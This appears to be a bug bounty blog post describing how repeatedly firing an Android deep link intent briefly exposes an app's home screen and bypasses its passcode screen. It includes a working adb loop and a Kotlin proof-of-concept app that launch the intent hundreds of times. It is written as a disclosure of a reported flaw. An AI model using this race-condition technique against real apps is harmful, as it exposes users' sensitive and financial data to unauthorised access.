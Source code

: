 ```yaml
---
layout: post
title: "Passcode Activity Bypass using Race Condition"
date: 2019-10-18
tag: [Bug bounty, Mobile]

---
```


##Background
An **Activity** is one of the Android's component in an app. It is the screen that the user sees on a mobile app. (For example, the setting's "screen", home "screen, etc). A simple app could have one while more complicated ones could have dozens.

From a security perspective, I normally check if the app components are **exported**, meaning if they can be directly called by other applications. Sometimes these exported apps can be used to bypass restrictions that wasn't intended by the developer.

![Threat model of component hijacking in Android](/assets/img/blog/exportedcomponent.jpg)

##How I was able to exploit this
On this specific bug bounty program, I noticed the application permitted a deep link, for argument sake let's call it `com.android.appname://` which automatically triggered the home activity of the app. However, with a passcode setup it was not possible to access the home page. I would consider accessing this page a sensitive as if an attacker could access the home page of the app, he could access sensitive information including making financial transactions.

I initially tried to fuzz different parameters such as "com.android.appname://login=1" using automation tools but this not get me anywhere. I then had a wild thought of sending this intent multiple times quickly, and this was when I noticed the app showed the home screen briefly before entering the passcode screen.


##Proof of Concept
I then used the simple following code as a PoC, and was able to bypass the passcode screen.

```
while (true); do adb shell am start -a android.intent.action.VIEW -d "com.android.appname://"; sleep 0.15; done
```

No doubt occasionally there were few tapping attemps needed before the app registered the action (due to the timing effect), but it did the job!

I then proceeded to create a simple Android app with my limited Kotlin skills (I admit I struggled but learned a lot)

```Java
class MainActivity : AppCompatActivity() {

    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        bigButton.setOnClickListener {
            Log.d("fast", "fast button pressed")
            val url = "com.android.appname://"
            for (n in 1..500) {
                startActivity(
                    Intent(
                        Intent.ACTION_VIEW, Uri.parse(url)
                    )
                )
                Thread.sleep(100)
            }
        }


        button2.setOnClickListener {
            Log.d("medium", "Medium button pressed")
            val url = "com.android.appname://"
            for (n in 1..500) {
                startActivity(
                    Intent(
                        Intent.ACTION_VIEW, Uri.parse(url)
                    )
                )
                Thread.sleep(150)
            }
        }


        button3.setOnClickListener {
            Log.d("slow", "Slow button pressed")
            val url = "com.android.appname://"
            for (n in 1..500) {
                startActivity(
                    Intent(
                        Intent.ACTION_VIEW, Uri.parse(url)
                    )
                )
                Thread.sleep(250)
            }
        }
    }
}
```

I created 3 buttons on the app in case the Hackerone reviewer's phone behaved differently to mine.

##Final thoughts
This was an interesting find as I never thought of bypassing passcode activities using timing attack.